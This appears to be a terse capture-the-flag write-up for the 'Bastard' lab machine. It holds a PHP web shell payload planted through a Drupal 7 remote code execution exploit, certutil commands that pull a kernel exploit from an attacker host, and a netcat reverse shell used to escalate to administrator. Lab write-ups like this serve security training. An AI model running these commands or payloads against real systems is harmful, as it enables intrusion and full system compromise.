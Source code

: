 ran an nmap scan and found ports 80, 135, and 49154 open

tried logging into the admin page and notice node?destination=node

tried fuffing it, no help here

noticed changelog.txt from our original nmap search

using searchsploit to find possible exploits

found a Drupal 7 remote code execution



using 41564.php
updated rest endpoint
also changed the data section to ask for a command prompt:
`<?php system($_REQUEST["cmd"]); ?>`

am able to traverse the directory using 
`http://bastard.htb/dixuSOspsOUU.php?cmd=dir%20\`
we are able to here traverse to 
`http://bastard.htb/dixuSOspsOUU.php?cmd=dir%20\Users\dimitris\Desktop`

we see user.txt and use:
`http://bastard.htb/dixuSOspsOUU.php?cmd=type%20\Users\dimitris\Desktop\user.txt`
user flag acquired

attempted to get into administrator but was unable to access the file
need to escalate privileges

found a windows kernel explloit named chimichurri.exe
[Chimchurri Link](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe)

downloaded and will upload the file to our server

started an http server with
`sudo python3 -m http.server 8080'
now the http server is hosted with our current working directory

we go back to the site and upload the file using `certutil`
in the url we type
`http://bastard.htb/dixuSOspsOUU.php?cmd=certutil -urlcache -split -f http://10.10.14.20:8080/Chimichurri.exe`

we check if the file was uploaded with `dir`

now that the file is uploaded, we can netcat and hopefully get a reverse shell
`nc -nlvp 6666`
to finish off, we run the file
`http://bastard.htb/dixuSOspsOUU.php?cmd=Chimichurri.exe 10.10.14.20 6666`

we get the reverse shell and traverse to administrator's desktop for our root flag

# DONE